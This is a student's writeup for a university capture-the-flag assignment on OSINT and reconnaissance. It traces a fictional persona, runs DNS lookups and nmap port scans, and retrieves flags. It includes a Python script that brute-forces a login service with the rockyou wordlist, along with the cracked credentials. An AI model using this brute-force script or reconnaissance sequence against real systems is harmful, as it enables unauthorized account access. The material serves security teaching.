 # Writeup 2 - OSINT

Name: Tuan Le
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examniation.

Digital acknowledgement: Tuan Le

## Assignment Writeup

### Part 1 (45 pts)

1. v0idcache's real name is Elizabeth Moffet

2. Elizabeth is the banking CEO at 13/37th National Bank and the URL is 
1337bank.money, the ip is 142.93.136.81

3. Twitter @v0idcache - I used Intel Techniques to find Usersherlock. I then 
used Usersherlock to search for the username and found the Twitter account.
Reddit u/v0idcache - I just googled v0idcache

4. I used dnsdumpster to obtain 5 ips and used Shodan to find information for each
216.87.155.33 - United States, VeriSign Infrastructure & Operations
216.87.152.33 - United States, VeriSing Infrastrcuture & Operations
142.93.136.81 - New York, United States, Digital Ocean
162.255.118.61 - Los Angeles, United States, Namecheap
162.255.118.62 - Los Angeles, United States, Namecheap

5. The 2 distinct flags

CMSC389R-{h1dd3n_1n_plain_5ight} - Found by looking at page source

CMSC389R-{e@5y_p3@5y-s0urc3_l3ak} - Found by looking at page source and further
examining the source of authenticate, control searched for "password" and found
username and password.

6. I performed nmap -p 1-1000 and nmap -p 1000-2000 to get the following ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
1337/tcp  open   waste

7. Based on the port scanner on pentest-tools.com, the operating system is
Ubuntu Linux

8. I found 3 other flags

CMSC389R-{h1ding_fil3s_in_r0bots_L0L} - Found by running 1337bank.money/robots.txt
then I found "Disallow: / secret_directory. I then ran 1337bank.money/secret_directory

CMSC389R-{h0w_2_iNt0_DNS_r3c0Rd5} - Found by using dnsdumpster with 1337bank.money

CMSC389R-{0M3G4LUL_G3T_pWN3d_N00b} - Found by just googling v0idcache and finding a
reddit post 

### Part 2 (75 pts)

I used the python stub code provided and added to it. I had to implement python
socket I/O such as reading and printing.

My code:

// Tuan Le
// UID: 115260047
// CMSC 389R (0201)

import socket

// IP address
host = "142.93.136.81"

// Open port to connect to
port = 1337 

// Wordlist file: "/usr/share/wordlists/rockyou.txt"
wordlist = open("/usr/share/wordlists/rockyou.txt", "r")

def brute_force():
    
    // Sockets: https://docs.python.org/2/library/socket.html

    username = "v0idcache"   # Hint: use OSINT

    // Iterate through each password in the wordlist and reapeatedly attempt to
    // log into v0idcache's server
    for password in wordlist:

        // Establish socket connection
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        
        // Reading username prompt and sending username
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send("v0idcache\n")
        print(data + username)

        // Reading password prompt and sending password
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send(password)
        print(data + password)

    s.close()

if __name__ == '__main__':
    brute_force()

I found 2 flags

CMSC389R-{brut3_f0rce_m4ster} - Found the username to be v0idcache and the password
linkinpark. Once I gained access, I cd into home and cat flag.txt

CMSC389R-{YWX4H3d3Bz6dx9lG32Odv0JZh} - Once I had access, I cd into home then cd
files then I cat a file called AB4300.txt which I found within a chat between 
v0idcache and fl1inch on pastebin.
